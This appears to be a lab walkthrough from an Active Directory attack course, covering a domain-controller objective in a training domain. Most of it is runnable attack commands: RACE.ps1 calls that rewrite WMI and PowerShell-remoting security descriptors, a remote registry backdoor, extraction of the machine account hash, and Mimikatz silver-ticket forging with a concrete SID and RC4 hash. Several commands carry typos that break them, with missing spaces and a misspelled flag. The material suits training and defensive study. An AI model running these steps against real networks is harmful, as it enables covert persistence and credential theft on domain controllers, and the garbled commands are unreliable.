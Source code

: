 ```yaml
---
description: >-
  Task - Modify security descriptors on dcorp-dc to get access using PowerShell
  remoting and WMI without requiring administrator access. Retrieve machine
  account hash from dcorp-dc with silver ticket.
---
```


# Obj 13 Security Descriptors

{% hint style="success" %}
Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges. Below command(to be run as Domain Administrator)modifies the host security descriptors for WMI on the DC to allow student access to WMI:
{% endhint %}

### Start a new session, run invishell, and load race.ps1

```
. C:\AD\Tools\RACE.ps1
```

```
Set-RemoteWMI -SamAccountNamestudentx-ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbosee
```

### Now, we can execute WMI queries on the DC as studentx:

```
PS C:\AD\Tools> gwmi -class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

{% hint style="danger" %}
Similar modification can be done to PowerShell remoting configuration. (In rare cases, you may get an I/O error while using the below command, please ignore it). Please note that this is unstable since spme patches in August 2020:
{% endhint %}

### Enable PSSRemoting on the DC from the student vm

```
Set-RemotePSRemoting –SamAccountNamestudentx-ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```

### We can now run commands using PowerShell remoting on the DC without DA privileges:

```
Invoke-Command -ScriptBlock{whoami} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Retrieve machine account hash without DA

we first need to modify permissions on the DC to allow this. Start a new session as DA and load the race.ps1 script shown above.

### Add RemoteBackDoor to DC

```
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee studentx-Verbose
```

### Now we can retrieve the machine hash to use later

```
. C:\AD\Tools\RACE.ps1
Get-RemoteMachineAccountHash -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```

{% hint style="success" %}
We can use the machine account hash to create Silver Tickets. Create Silver Tickets for HOST and RPCSS using the machine account hash to execute WMI queries:
{% endhint %}

### Create a Silver Ticket as HOST on the DC

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511/target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:731a06658bc10b59d71f5176e93e5710/user:Administrator /ptt"'
```

### Create a Silver Ticket as RPCSS on the DC

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511/target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:731a06658bc10b59d71f5176e93e5710/user:Administrator /ptt"'
```

### Check to make sure the tickets were made

```
klist
```

### Now we can run WMI queries on the DC

```
PS C:\AD\Tools> gwmi -Class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
